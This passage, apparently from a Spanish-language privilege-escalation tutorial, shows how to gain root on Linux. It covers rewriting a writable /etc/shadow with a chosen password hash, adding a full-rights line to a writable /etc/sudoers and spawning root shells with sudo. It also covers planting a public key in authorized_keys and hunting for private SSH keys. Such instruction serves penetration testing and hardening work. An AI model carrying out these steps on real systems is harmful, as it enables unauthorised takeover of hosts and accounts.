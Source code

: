 ```bash
# Debería quedar así luego de modificarlo...
root:jKw6eSezZulQU:19258:0:99999:7:::                                                                                                                              
daemon:*:19258:0:99999:7:::                                                                                                                            
bin:*:19258:0:99999:7:::                                                                                                                               
sys:*:19258:0:99999:7:::                                                                                                                               
sync:*:19258:0:99999:7:::
...
[REDACTE]
```

Luego de reemplazar el archivo sólo habría que autenticarnos con el usuario e indicar la contraseña que establecimos en el archivo (obviamente su valor real, no el hash 😅):

```bash
su <user>
```

Si tienes dudas sobre la explotación te recomiendo mirar este video que subí hace algún tiempo a YouTube: [https://youtu.be/eksxwYF8OCQ](https://youtu.be/eksxwYF8OCQ)

Otro archivo que es susceptible a escalación de privilegios mediante permisos de escritura es el `/etc/sudoers`. Para esto bastaría con añadir la siguiente línea en el mismo:

```bash
<user> ALL=(ALL:ALL) ALL
```

Añadiendo esto podremos ejecutar cualquier comando con el usuario `root` a partir del programa `sudo`.

Cualquiera de las opciones que se presentan a continuación servirá para entablar una sesión con el usuario `root`:

```bash
sudo su
sudo /bin/bash
sudo -u root /bin/bash
sudo /bin/sh
sudo -u root /bin/sh
```

---

# SSH Keys Misconfiguration

Cuando un host posee servicios SSH podemos buscar ciertos misconfiguration que nos podría permitir pivotar de usuario en el sistema, o bien, directamente escalar privilegios.

Para verificar esto, siempre es importante que chequemos:

- Si tenemos privilegios de escritura en un archivo `authorized_keys`, ya sea del usuario `root` u otro, podemos autenticarnos con el mismo mediante el servicio SSH. Para esto debemos modificarlo, colocar nuestra clave pública dentro del mismo y autenticarnos con nuestra clave privada indicando el usuario.
- Lo otro sería enumerar archivos con claves ID RSA para probar autenticarnos como otro usuario en el servidor, ya sea efectuando movimiento lateral o vertical (es importante checar si es que existen backups).

---